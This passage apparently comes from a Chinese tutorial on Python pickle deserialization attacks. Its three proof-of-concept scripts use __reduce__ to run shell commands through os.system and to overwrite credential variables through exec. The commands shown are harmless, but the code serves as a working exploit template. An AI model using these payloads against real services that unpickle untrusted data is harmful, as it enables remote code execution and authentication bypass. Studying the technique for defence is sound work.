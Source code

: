 任意代码执行或命令执行。

变量覆盖，通过覆盖一些凭证达到绕过身份验证的目的。

#### 命令执行

```python
import pickle
import os

class genpoc(object):
    def __reduce__(self):
        s = """echo test >poc.txt"""  # 要执行的命令
        return os.system, (s,)        # reduce函数必须返回元组或字符串

e = genpoc()
poc = pickle.dumps(e)

print(poc) # 此时，如果 pickle.loads(poc)，就会执行命令
```

```python
import pickle
import os

class Test2(object):
    def __reduce__(self):
    	#被调用函数的参数
        cmd = "/usr/bin/id" 
        return (os.system,(cmd,))

if __name__ == "__main__":
    test = Test2()
    #执行序列化操作
    result1 = pickle.dumps(test)
    #执行反序列化操作
    result2 = pickle.loads(result1)

# __reduce__()魔法方法的返回值:
# return(os.system,(cmd,))
# 1.满足返回一个元组，元组中有两个参数
# 2.第一个参数是被调用函数 : os.system()
# 3.第二个参数是一个元组:(cmd,),元组中被调用的参数 cmd
# 4. 因此序列化时被解析执行的代码是 os.system("/usr/bin/id")
```



#### 变量覆盖

```python
import pickle

key1 = b'321'
key2 = b'123'
class A(object):
    def __reduce__(self):
        return (exec,("key1=b'1'\nkey2=b'2'",))

a = A()
pickle_a = pickle.dumps(a)
print(pickle_a)
pickle.loads(pickle_a)
print(key1, key2)
```

